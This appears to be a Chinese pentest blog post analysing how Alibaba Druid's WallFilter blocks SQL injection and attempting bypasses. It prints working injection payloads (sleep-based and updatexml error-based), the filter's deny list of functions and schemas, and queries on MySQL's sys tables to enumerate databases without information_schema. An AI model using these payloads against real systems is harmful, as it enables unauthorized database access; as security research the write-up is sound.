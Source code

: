 ```yaml
---
title: Druid WallFilter 绕过浅析
date: 2023-03-09 15:50:00
categories: Pentest
tags: [SQL, Bypass]
---
```


## 简介
> 之前挖洞的时候遇到了一个 SQL 注入，测试时可以看到回显的 SQL 语句，但是一直被拦截，搜索了下发现是 WallFilter

WallFilter 是阿里巴巴的[数据库连接池Druid](https://github.com/alibaba/druid)中一个特殊的 Filter，主要功能是用于监控 SQL 安全，并基于 SQL 语法进行分析，理解其中的 SQL 语义，然后作出智能准确的处理，从而避免 SQL 注入。

## 拦截1
首次尝试注入，Payload 如下：

```sql
desc,(select/**/*/**/from/**/(select(sleep(5)))a)#

```

抛出异常：`sql injection violation, comment not allow`

![Druid-WallFilter-0](assets/Druid-WallFilter-0.png)


原因是 WallFilter 的默认拦截策略是**不允许 SQL 中带有注释**，而这里的 Payload 明显含有注释，因此被拦截。参考：[alibaba/druid - WallFilter拦截规则](https://github.com/alibaba/druid/wiki/WallFilter-%E6%8B%A6%E6%88%AA%E8%A7%84%E5%88%99)

## 拦截2
再次尝试注入，修改后的 Payload 如下：

```sql
and(updatexml(1,concat(0x7e,(select database())),0));

and(updatexml(1,concat(0x7e,(select user())),0))

```

这次的报错为：`sql injection violation, syntax error`

![Druid-WallFilter-1](assets/Druid-WallFilter-1.png)

![Druid-WallFilter-2](assets/Druid-WallFilter-2.png)

原因是默认配置下，WallFilter 拦截了如下函数和关键字：

- [Druid拦截功能的配置与简单绕过](https://mp.weixin.qq.com/s/lGalf63VXCva2I5BpmSMgQ)
- ~~[alibaba/druid/wall](https://github.com/alibaba/druid/tree/master/src/main/resources/META-INF/druid/wall)~~
- [alibaba/druid/wall](https://github.com/alibaba/druid/blob/master/core/src/main/resources/META-INF/druid/wall/mysql/deny-function.txt)

```basic
deny-function:
  version
  load_file
  database
  schema
  user
  system_user
  session_user
  benchmark
  current_user
  sleep
  xmltype
  receive_message

deny-schema:
  information_schema
  mysql
  performance_schema    

deny-variant:
  basedir
  version_compile_os
  version
  datadir

```

## 其它查询
尝试查询其它的变量

```sql
SHOW GLOBAL VARIABLES;               # 查看全局变量
SHOW GLOBAL VARIABLES like '%xxx%';  # 模糊查询全局变量
SELECT @@global.变量名;               # 查看指定全局变量的值

SHOW VARIABLES;                      # 查看用户变量
SHOW VARIABLES like '%xxx%';         # 模糊查询用户变量
SELECT @@变量名;                      # 查看指定用户变量的值

```
这里查几个变量，发现可以成功查询，Payload如下：

```sql
and(updatexml(1,concat(0x7e,(select current_user)),0))
and(updatexml(1,concat(0x7e,(select @@plugin_dir)),0))

```

![Druid-WallFilter-3](assets/Druid-WallFilter-3.png)

![Druid-WallFilter-4](assets/Druid-WallFilter-4.png)

## 尝试绕过
前面得知禁用了`information_schema`，这里利用`MySQL5.6+`的`sys`系统库中的某些表来尝试绕过。

- [mysql注入绕过information_schema过滤](https://blog.csdn.net/m0_49835838/article/details/109159839)
- [SQL注入-查表查列](https://blog.csdn.net/soldi_er/article/details/116901009)
- [Bugku sql注入 基于布尔的SQL盲注](https://blog.csdn.net/plant1234/article/details/118033711)

```sql
mysql> use sys
mysql> show tables

# 默认sys库中，保存库名和表名的信息的表
sys.schema_table_statistics_with_buffer
sys.schema_index_statistics
sys.schema_table_statistics
sys.schema_auto_increment_columns 
sys.x$schema_index_statistics
sys.x$schema_table_statistics
sys.x$schema_table_statistics_with_buffer

# 示例查询,其中table_schema为库名, table_name为表名
mysql> select table_schema, table_name from sys.schema_table_statistics_with_buffer;

# 其它目前可记录的表
mysql> select * from sys.version;
mysql> select object_schema from sys.innodb_buffer_stats_by_schema;
mysql> select object_schema, object_name from sys.innodb_buffer_stats_by_table;

# MySQL默认存储引擎innoDB携带的表, 两表均有database_name和table_name字段
mysql.innodb_table_stats
mysql.innodb_index_stats


```
测试之后发现报错：`SELECT command denied ...`，原因是**当前用户权限不足**所导致。

如果数据库当前用户为`root`或者其它具有对应权限的用户时，利用这个办法进行绕过是可行的

![Druid-WallFilter-5](assets/Druid-WallFilter-5.png)
